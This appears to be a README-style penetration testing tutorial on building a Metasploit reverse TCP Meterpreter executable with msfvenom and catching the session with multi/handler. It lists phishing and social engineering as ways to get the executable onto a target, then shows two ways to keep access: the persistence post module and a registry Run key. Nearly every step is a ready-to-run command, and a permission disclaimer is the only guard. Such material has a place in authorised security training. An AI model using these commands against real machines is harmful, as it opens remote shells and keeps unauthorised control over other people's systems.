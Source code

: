 # Procedure to Create Payloads in Metasploit and Maintain Persistence

This guide will walk you through the process of creating payloads in Metasploit and maintaining persistence on a target machine. **Make sure you have explicit permission** before performing any penetration testing.

---

## Prerequisites

- Kali Linux or a similar penetration testing distribution.
- Metasploit Framework installed.
- A target machine with permission for testing.
- Basic knowledge of Metasploit and networking.

---

## Step 1: Create a Payload

1. Open a terminal on your Kali Linux machine.
2. Use `msfvenom` to create a reverse TCP Meterpreter payload:

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP_Address> LPORT=4444 -f exe -o payload.exe
   ```

- `LHOST=<Your_IP_Address>`: Replace this with your Kali Linux machine’s IP address. This is the IP address that the target machine will connect to once the payload is executed.
  
- `LPORT=4444`: The port number that Metasploit will listen on for incoming connections from the target machine.
  
- `-f exe`: Specifies the output format as `.exe` (for Windows). This creates an executable file that can be run on the target machine.
  
- `-o payload.exe`: The name of the output file. This is the executable file that will be created, which you will deliver to the target machine.

After running this command, the `payload.exe` file will be generated, and this is the file that will be delivered to the target system for execution.
## Step 2: Set Up the Listener in Metasploit
Launch the Metasploit console:

```bash
msfconsole
```
In Metasploit, use the multi/handler exploit to handle the incoming connection:
```bash
use exploit/multi/handler
```
Set the payload type to the one you created:

```bash
set payload windows/meterpreter/reverse_tcp
```
Set LHOST and LPORT to match the values used when generating the payload:

```bash
set LHOST <Your_IP_Address>
set LPORT 4444
```
Start the listener:
```bash
exploit
```
Metasploit will now be listening for a connection from the target machine.
## Step 3: Deliver the Payload to the Target
To execute the payload on the target machine, you need to deliver the payload.exe file. This can be done through methods such as:

- Social engineering (e.g., convincing the user to run the file).
- Exploiting an existing vulnerability to upload and execute the payload.
- Phishing emails or malicious attachments.
  Once the target executes the payload, a Meterpreter session will be opened on your attacking machine.
## Step 4: Maintain Persistence
Persistence ensures that you retain access to the target system even after a reboot or logoff.

### Option 1: Use the Persistence Module in Metasploit
1. Background the current Meterpreter session:
```bash
background
```
2. Use the persistence post-exploitation module:
```bash
use post/windows/manage/persistence
```
3. Set the session ID (replace <Session_ID> with the active session number):
```bash
set SESSION <Session_ID>
set LHOST <Your_IP_Address>
set LPORT 4444
```
4. Run the persistence script:
```bash
run
```
This will ensure that the payload runs every time the target machine reboots or a user logs in.
### Option 2: Manually Add Persistence Using the Windows Registry
You can also manually add persistence by modifying the Windows registry to automatically run the ``` payload```.

In the Meterpreter session, execute the following command:
```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "MyPayload" /t REG_SZ /d "C:\path\to\payload.exe" /f
```
This will make sure the payload executes every time the user logs in to the system.
## Step 5: Verify Persistence
To verify persistence, reboot the target machine. After the system restarts, the payload should automatically execute and re-establish the Meterpreter session.
# Conclusion

In this guide, we have demonstrated the process of creating payloads using Metasploit and establishing persistence on a target machine. By using Metasploit's `msfvenom` tool, we created a reverse TCP payload, and through the use of the `multi/handler` exploit, we set up a listener to catch incoming connections from the payload. Additionally, we discussed methods for maintaining persistence using Metasploit's persistence module, ensuring continued access to the compromised system.

It's essential to use these techniques ethically and responsibly. Always have explicit permission from the system owner before conducting penetration tests. Unauthorized use of these tools can lead to legal consequences and violations of ethical standards.



